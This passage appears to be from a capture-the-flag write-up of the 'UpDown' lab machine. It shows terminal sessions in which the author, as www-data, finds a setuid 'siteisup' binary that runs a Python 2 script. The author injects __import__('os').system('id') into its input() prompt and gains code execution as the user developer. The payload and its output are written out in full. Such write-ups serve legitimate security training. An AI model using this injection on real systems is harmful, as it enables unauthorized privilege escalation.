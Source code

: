 ```bash
drwx------ 2 developer developer 4096 Aug  2 09:15 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22 15:45 dev
-rw-r----- 1 root      developer   33 Oct  3 20:55 user.txt
www-data@updown:/home/developer$ 
```

the directory `dev` contained a file `siteisup_test.py` which I had pivs to run with `sudo`, maybe this is the key to getting to the user `develoepr` since it's owned by them.

```bash
www-data@updown:/home/developer$ cd dev
cd dev
www-data@updown:/home/developer/dev$ ls -la
ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22 15:45 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22 15:45 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22 15:45 siteisup_test.py
www-data@updown:/home/developer/dev$
```

Also the binary `siteisup` seemed to be running `siteisup_test.py` so I can use it to exploit the `input` function, I found a usefull article on Medium.com [here](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1), I can put in `__import__('os').system(COMMAND)`

I tried the following as a poc and it worked!

```bash
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
__import__('os').system('id')

--------> uid=1002(developer) gid=33(www-data) groups=33(www-data) <--------

Enter URL here:Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
Welcome to 'siteisup.htb' application

www-data@updown:/home/developer/dev$ 
```
